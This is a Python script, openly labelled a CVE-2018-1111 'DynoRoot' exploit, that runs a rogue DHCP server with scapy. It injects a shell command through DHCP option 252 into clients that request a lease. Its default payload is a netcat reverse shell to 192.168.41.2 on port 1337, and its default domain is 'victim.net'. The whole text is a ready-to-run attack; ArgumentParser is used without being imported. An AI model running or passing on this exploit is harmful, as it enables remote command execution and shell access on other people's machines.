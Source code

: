 ```python
from scapy.all import BOOTP_am, DHCP
from scapy.base_classes import Net


class DynoRoot(BOOTP_am):
    function_name = "dhcpd"

    def make_reply(self, req):
        resp = BOOTP_am.make_reply(self, req)
        if DHCP in req:
            dhcp_options = [(op[0], {1: 2, 3: 5}.get(op[1], op[1]))
                            for op in req[DHCP].options
                            if isinstance(op, tuple) and op[0] == "message-type"]
            dhcp_options += [("server_id", self.gw),
                             ("domain", self.domain),
                             ("router", self.gw),
                             ("name_server", self.gw),
                             ("broadcast_address", self.broadcast),
                             ("subnet_mask", self.netmask),
                             ("renewal_time", self.renewal_time),
                             ("lease_time", self.lease_time),
                             (252, "x'&{payload} #".format(payload=self.payload)),
                             "end"
                             ]
            resp /= DHCP(options=dhcp_options)
        return resp


if __name__ == '__main__':
    parser = ArgumentParser(description='CVE-2018-1111 DynoRoot exploit')

    parser.add_argument('-i', '--interface', default='eth0', type=str,
                        dest='interface',
                        help='The interface to listen for DHCP requests on (default: eth0)')
    parser.add_argument('-s', '--subnet', default='192.168.41.0/24', type=str,
                        dest='subnet', help='The network to assign via DHCP (default: 192.168.41.0/24)')
    parser.add_argument('-g', '--gateway', default='192.168.41.254', type=str,
                        dest='gateway', help='The network gateway to respond with (default: 192.168.41.254)')
    parser.add_argument('-d', '--domain', default='victim.net', type=str,
                        dest='domain', help='Domain to assign (default: victim.net)')
    parser.add_argument('-r', '--renewal-time', default=600, type=int,
                        dest='renewal_time', help='The DHCP lease renewal interval (default: 600)')
    parser.add_argument('-l', '--lease-time', default=3600, type=int,
                        dest='lease_time', help='The DHCP lease duration (default: 3600)')
    parser.add_argument('-p', '--payload', default='nc -e /bin/bash 192.168.41.2 1337', type=str,
                        dest='payload', help='The payload / command to inject (default: nc -e /bin/bash 192.168.41.2 1337)')

    args = parser.parse_args()
    server = DynoRoot(iface=args.interface, domain=args.domain,
                      pool=Net(args.subnet),
                      network=args.subnet,
                      gw=args.gateway,
                      renewal_time=args.renewal_time,
                      lease_time=args.lease_time)
    server.payload = args.payload

    server()

```
